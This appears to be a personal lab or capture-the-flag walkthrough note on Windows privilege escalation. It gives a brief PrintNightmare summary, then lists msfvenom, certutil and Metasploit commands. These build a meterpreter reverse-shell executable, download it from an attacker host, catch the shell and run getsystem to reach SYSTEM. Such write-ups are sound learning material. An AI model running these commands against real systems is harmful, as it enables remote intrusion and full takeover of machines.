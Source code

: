 
## Quick summary — what this is

- “PrintNightmare” refers to a class of Print Spooler vulnerabilities (notably CVE-2021-1675 and CVE-2021-34527) that allow **privilege escalation** or **remote code execution** via the Windows Print Spooler service.
    
- One attack vector uses **named pipe impersonation**: a privileged service (spoolsv.exe) can be tricked into impersonating an attacker-controlled client, leading to code execution as SYSTEM.
    
- Impact: full domain compromise on Windows domain controllers or local SYSTEM takeover on workstations/servers where spooler is running and vulnerable.

## Privileges of the current user

On the [[Initial access#Reverse Shell]] get the user's privileges.

```
whoami /priv
```

![[1_O8u40tZ_W_inoAsND5hOLQ.webp]]

The Privilege `SeImpersonatePrivilege` is enabled.

## Creating a payload with msfvenom

#Attacking_Machine 
Run the following command.

```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<ATTACKING MACHIINE IP> LPORT=4445 -f exe -o malicious.exe
```

#SMB_shell 
## Downloading the payload

```
certutil -urlcache -f http://<ATTACKING MACHINE IP>/malicious.exe malicious.exe
```

![[Screenshot_2025-10-07_05-02-59.png]]


## Metasploit

Create a meterpreter on Metasploit.

#Attacking_Machine 
- Run `msfconsole`.

#Metasploit
- Use a **reverse shell handler** (like `multi/handler`).
```
msf6 use multi/handler
```

- Use a _persistent_ or _meterpreter_ payload.
```
msf6 exploit(multi/handler) > set PAYLOAD windows/x64/meterpreter/reverse_tcp
```

- Set the options.
```
msf6 exploit(multi/handler) > set LHOST <ATTACKING MACHINE IP>

msf6 exploit(multi/handler) > set LPORT 4445
```

> [!Note]
LPORT is the same as the one you use to create the `malicious.exe` payload with *msfvenom*.


## Running the exploit

#Metasploit 

```
msf6 exploit(multi/handler) > exploit
```

![[Screenshot_2025-10-07_05-25-00.png]]

- Try *getsystem* to make the framework apply some common techniques.

```
meterpreter > getsystem
meterpreter > getuid
```

![[Screenshot_2025-10-07_05-30-15.png]]

> [!Success]
> You get NT AUTHORITY\SYSTEM


**Next step:** [[System flag]]
